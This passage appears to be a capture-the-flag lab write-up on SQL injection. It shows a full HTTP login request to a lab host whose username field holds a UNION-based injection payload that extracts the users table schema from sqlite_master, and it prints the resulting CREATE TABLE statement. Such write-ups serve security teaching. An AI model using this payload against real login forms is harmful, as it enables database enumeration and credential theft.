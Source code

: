 ![Pasted image 20210804163824](Pasted%20image%2020210804163824.png)

Determine how many columns are in the table, their names, and ther types.

```http
POST /challenge2/login HTTP/1.1
Host: 10.10.109.43:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Origin: http://10.10.109.43:5000
DNT: 1
Connection: close
Referer: http://10.10.109.43:5000/challenge2/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+UNION+SELECT+-50,(SELECT+sql+FROM+sqlite_master+WHERE+type+%3d+'table'+AND+name+=+'users')--&password=woo	
```

The following SQL statement was used to create the table, which indicates the number of columns, their names, and their types.

```sql
CREATE TABLE users (
    id integer primary key,
    username text unique not null,
    password text not null
)
```
